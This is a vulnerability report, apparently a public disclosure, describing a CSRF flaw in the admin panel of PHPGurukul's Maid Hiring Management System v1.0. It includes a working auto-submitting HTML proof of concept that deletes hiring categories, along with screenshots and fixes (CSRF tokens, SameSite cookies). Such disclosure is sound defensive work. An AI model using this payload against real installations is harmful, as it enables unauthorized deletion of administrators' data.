 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to delete arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data deletion and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category deletion.

**🛜Proof-of-Concept (PoC):**

1) There was a category delete functionality where only authenticated admin can delete category.
![1](https://github.com/user-attachments/assets/e89bd4f0-7e18-4160-a021-52782d46316a)
2) HTML code to send GET request to the endpoint `/admin/manage-category.php`
**CSRF-POC**
```
<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/manage-category.php">
      <input type="hidden" name="delid" value="13" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3) Use the HTML code and craft a malicious URL.
![3](https://github.com/user-attachments/assets/53ce1a60-b26e-475e-8ea4-79dacbb18ab2)
4) After Admin clicks on the link, new category will be deleted.
![4](https://github.com/user-attachments/assets/20a44793-7785-4c3c-98ed-ea20a8649aa9)
![5](https://github.com/user-attachments/assets/f44af5f6-6f4c-44cb-8f47-72148378afcd)

**Recommendation:**
Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
